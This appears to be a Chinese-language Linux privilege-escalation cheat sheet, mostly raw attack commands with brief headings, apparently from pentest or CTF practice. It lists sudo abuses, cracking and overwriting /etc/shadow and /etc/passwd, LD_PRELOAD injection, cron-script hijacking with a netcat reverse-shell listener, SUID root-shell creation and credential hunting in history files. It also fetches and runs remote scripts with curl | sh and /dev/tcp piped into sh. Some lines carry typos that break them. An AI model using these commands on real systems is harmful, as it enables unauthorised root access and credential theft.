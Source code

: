 ### 查看当前用户
whoami
id
uname -a
uname -m

### 查看当前目录
pwd

### 枚举
sudo -l

### 切换用户
sudo -u jack /bin/bash
sudo -u#10000 /bin/bash

### 修改交互更好的bash环境
python -c "import pty;pty.spawn('/bin/bash')"

### 搜索
grep -R -i pass /home/* 2>dev/null

### sudo -u提权
sudo -V | grep version 
'Sudo version 1.7.4p4'
sudo -u#-1 /bin/bash

### sudo apt(apt-get)提权
sudo apt update -o APT::Update::Pre-Invoke::=/bin/bash

### sudo apache2提权
sudo apache2 -f /etc/shadow
vim shadow_root
sudo john shadow_root --wordlist=/usr/share/wordlists/rockyou.txt

### sudo ash提权
sudo ash

### sudo awk提权
sudo awk 'BEGIN {system("/bin/bash)}'

### shadow 可读可写
ls -liah /etc/shadow
cat /etc/passwd
cat etc/shadow
cat /etc/shadow | grep ':\$'
vim hash
cat vim
sudo john  --wordlist=/usr/share/wordlists/rockyou.txt hash

mkpasswd -m sha512 admin
vim /etc/shadow 

### passwd 可读可写
openssl passwd admin
vim etc/passwd

### sudo环境变量提权
'env_reset,env_keep+=LD_PRELOAD'
vim 共享库
编译
sudo LD_PRELOAD=/home/user/共享库 find

### 自动任务提权
cat /etc/crontab

'***** root overwrite.sh'
'***** root /usr/local/bin/compress.sh'

locate overwrite.sh
ls -lish /../../overwrite.sh
cat /../../overwrite.sh

kali@kali:sudo nc -lvnp 4444

vim /../../overwrite.sh
反弹shell
----------------------------
vim overwrite.sh
提权脚本
/tmp/rootbash -p

### suid提权
find / -perm -u=s -type f 2>dev/null

/usr/local/bin/suid-so
usr/local/bin/suid-env
usr/local/bin/suid-env2

searchsploit xxx

### 密码和密钥历史文件提权
history
cat ～/.*history | less
ls -liah
cat .viminfo
cat myvpn.ovpn

ssh

### 备份shadow/passwd
cp /etc/shadow /tmp/shadow.bak
cp /etc/passwd /tmp/passwd.bak

### 查看历史记录
history

### 内核提权
uname -a
'内核版本过低'
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
##### 无curl
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
sudo nc -lvnp 80 < linpeas.sh
cat < /dev/tcp/192.168.204.129/80 | sh

### doas

### mysql提权思路
mysql -u root
show databases;
use mysql
show tables;
select * from user;
describe user;


chomd 600 file

locate password | more
find / -name root_key 2> /dev/null

### 提权脚本
"#! /bin/bash

cp /bin/bash /tmp/rootbash
chomd +xs /tmp/rootbash"

/tmp/rootbash -p

### 提权大全
https://gtfobins.github.io/
